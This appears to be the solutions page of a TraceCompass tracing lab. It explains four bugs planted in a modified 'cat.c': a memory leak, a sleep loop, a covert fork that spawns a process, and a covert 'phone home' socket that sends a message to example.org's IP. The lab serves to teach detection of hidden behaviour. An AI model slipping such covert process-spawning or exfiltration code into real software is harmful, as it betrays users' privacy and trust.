 ### Solutions to the Bug Hunt

The `cat` file had 4 more or less obvious problems/issues. This is a teaching use case, meant to show some potential issues in a very very simple program. "Real" issues will be a lot harder to find in a much more complex code base. But the tools are the same.

- - -

#### Bug #1: memory leak

As mentioned in a previous lab, TraceCompass does not claim to be a memory leak finder. `Valgrind` would do a better job in this case and pinpoint the exact line of the leaked memory allocation. But we can observe it in TraceCompass and see where/when in the execution the leak may have happened.

![Bug Hunt Memory Leak](screenshots/memoryLeak.png "Bug Hunt: Memory Leak")

This happens in the `cat.c` file at line 769

```c
769    test = malloc(1000);
770    printf("That's a custom-compiled cat for tutorial purposes %s", test);
771    inbuf = xmalloc (insize + 1 + page_size - 1);
772    test = inbuf;  // Losing my pointer
```

- - -

#### Bug #2: An "optimization loop" of usleep

When developing, it's often convenient to add some latency at some places to avoid a race condition or make sure some other condition is met. The techniques used are sometimes... dubious... One of them is adding sleeps in the code. We can see those with TraceCompass. The critical path shows a `Timer` state for those and the thread is blocked.

![Bug Hunt Optimization Loop](screenshots/optimizationLoop.png "Bug Hunt: Optimization Loop")

This happens in the `cat.c` file in the `next_line_num` function at line 175:

```c
132    static void
133    next_line_num (void)
134    {
         ....
174      // Optimization loop, remove when we need more perf ;-)
175      usleep(100);
176    }
```

- - -

#### Bug #3: Spawning a process!

Most complex applications today are multi-threaded so we expect to see a lot of children to a given process. But could one of those children be a malicious one? TraceCompass shows all the hierarchy of processes and threads, so in doubt, it is possible to examine one in particular and see what it does.

In our case, `cat` is not expected to have any children, but it has, and more than one.

* Some are named `cat-ust`. Looking at their critical path, we see it interacts with `lttng-consumerd`. Since we are explicitly tracing `cat` with `lttng-ust`, this behaviour would be normal in this case. Everythin happens before the call to main, so it's the libraries preloading.

* We also observe a `sleep` process being spawned during execution, in the middle of a `next_line_num` function. That is not normal. `sleep` is harmless here, but a malicious application could start a key logger process for instance.

![Bug Hunt Spawn Process](screenshots/spawnProcess.png "Bug Hunt: Spawn Process")

This happens in the `cat.c` file in the `next_line_num` function from line 136 to 158:

```c
136    if ((endp - line_num_start) == 2 && execDone == 0) {
137      // This file looks long enough, let's subrepticiously start a thread hehehe
138      pid_t process = fork();
139
140      if (process < 0){
141        //fork error, oops, just be quiet...
142      }
143      if (process == 0){
144        char cmd_exec[11] = "/bin/sleep";
145        char time_sec[2] =  "5";
146        char* argv[2];
147
148        argv[0] = cmd_exec;
149        argv[1] = time_sec;
150
151        execv("/bin/sleep", (char *[]){ cmd_exec, time_sec, NULL });
152        fprintf(stderr, "\n********************\n");
153        fprintf(stderr, " Unable to exec %s: %d\n", argv[0], errno);
154        fprintf(stderr, "********************\n");
155        exit(1);
156      }
157      execDone = 1;
158    }
```

- - -

#### Bug #4: Subrepticious Phone Home

Computer systems, from smart phones to data centers, store a lot of very sensitive/personal data, that can be of interest to many attackers. It may be tempting for some attackers to add some code snippets to leak this precious data. With TraceCompass and the critical path, we can observe network connections and messaging. Of course, the implementation here is naive. If I were to write such a code, I'd make sure it is not obvious like this one, but... not all attackers are smart or know about this?

Here, we do not expect `cat` to do any network connection, unless we are catting a file from the network, which we aren't. So those network connections are fishy.

![Bug Hunt Phone Home](screenshots/phoneHome.png "Bug Hunt: Phone Home")

This happens in the `cat.c` file in the `cat` function from line 513 to 533:

```c
513    if (bpin + 5 < eob && *bpin == ' ' && *(bpin + 1) == 'c' && *(bpin + 2) == 'a' && *(bpin + 3) == 't' && *(bpin + 4) == ' ') {
514      // omg, he said ' cat ', we need to tell the boss
515      int sockfd = 0,n = 0;
516      char sendBuff[1024] = "Hey boss, this user said cat, that's not right";
517      struct sockaddr_in serv_addr;
518
519      if((sockfd = socket(AF_INET, SOCK_STREAM, 0))> 0)
520        {
521          serv_addr.sin_family = AF_INET;
522          serv_addr.sin_port = htons(80);
523          serv_addr.sin_addr.s_addr = inet_addr("93.184.216.34");      // www.example.org
524
525          if(connect(sockfd, (struct sockaddr *)&serv_addr, sizeof(serv_addr))>=0)
526            {
527              n = write(sockfd, sendBuff, sizeof(sendBuff)-1);
528              if (n < 0) {
529                // Couldn't tell boss, that's too bad
530              }
531            }
532        }
533    }
```

- - -

#### Next

* [Introduction to Language Specific Trancing](../203-intro-to-language-specific-tracing)
or
* [Back](../) for more options
